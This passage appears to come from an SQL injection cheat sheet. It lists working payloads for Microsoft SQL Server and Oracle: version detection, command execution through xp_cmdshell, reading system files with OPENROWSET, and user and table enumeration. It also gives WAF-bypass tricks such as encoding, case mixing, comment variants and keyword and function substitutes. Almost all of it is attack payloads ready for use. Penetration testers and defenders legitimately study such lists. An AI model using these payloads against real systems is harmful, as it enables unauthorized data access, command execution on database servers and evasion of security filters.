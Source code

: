 ### Microsoft SQL Server

```sql
-- Version detection
' AND @@version LIKE 'Microsoft%'--

-- Command execution
'; EXEC xp_cmdshell 'whoami'--

-- Reading files
' UNION SELECT 1,BulkColumn,3 FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_BLOB) AS t--
```

### Oracle

```sql
-- Version detection
' AND banner LIKE 'Oracle%' FROM v$version WHERE rownum=1--

-- Current user
' UNION SELECT 1,user,3 FROM dual--

-- All tables
' UNION SELECT 1,table_name,3 FROM all_tables--
```

## Advanced Evasion Techniques

### WAF Bypass Methods

```sql
-- Comment variations
/*comment*/ /*!50000comment*/ #comment --comment

-- Case manipulation
UnIoN SeLeCt

-- URL encoding
%55%4e%49%4f%4e %53%45%4c%45%43%54

-- Double encoding
%2555%254e%2549%254f%254e

-- Alternative keywords
SELECT -> EXEC, EXECUTE
UNION -> UNION ALL, UNION DISTINCT
```

### Function Alternatives

```sql
-- Instead of SUBSTRING
MID(), LEFT(), RIGHT(), SUBSTR()

-- Instead of CONCAT
MAKE_SET(), ELT(), INSERT()

-- Instead of ASCII
ORD(), HEX()

-- Instead of LENGTH
CHAR_LENGTH(), CHARACTER_LENGTH()
```
